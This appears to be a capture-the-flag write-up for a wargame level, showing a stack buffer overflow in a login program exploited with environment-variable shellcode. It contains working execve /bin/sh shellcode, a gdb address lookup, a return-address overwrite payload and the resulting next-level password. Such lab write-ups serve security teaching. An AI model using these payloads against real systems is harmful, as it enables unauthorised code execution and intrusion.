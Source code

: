 # level01

`buffer` is 16 bytes long, but we have a `fgets(buffer, 100, stdin)`, so we can overflow it.  
We will use an environment variable to store the payload.

```sh
$> export SHELLCODE="nl"$(python -c 'print("\x90"*100 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x90"*100)')
```

We then retrieve `SHELLCODE`'S

```sh
$> gdb -q level01 
Reading symbols from /home/users/level01/level01...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x80484d5
(gdb) r
Starting program: /home/users/level01/level01 

Breakpoint 1, 0x080484d5 in main ()
(gdb) x/32s *((char **)environ)
0xffffd7fe:	 "SHELLCODE=[...]"
[...]
```

We add `~20 bytes` to that address to be in the no-ops when jumping into it.
```
0xffffd7fe + 20 = 0xffffd808
```

We just have to create our payload :
```sh
$> (python -c 'print("dat_wil"); print("A"*80 + "\x0f\xd8\xff\xff")'; cat) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

$ whoami
level02
$ cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
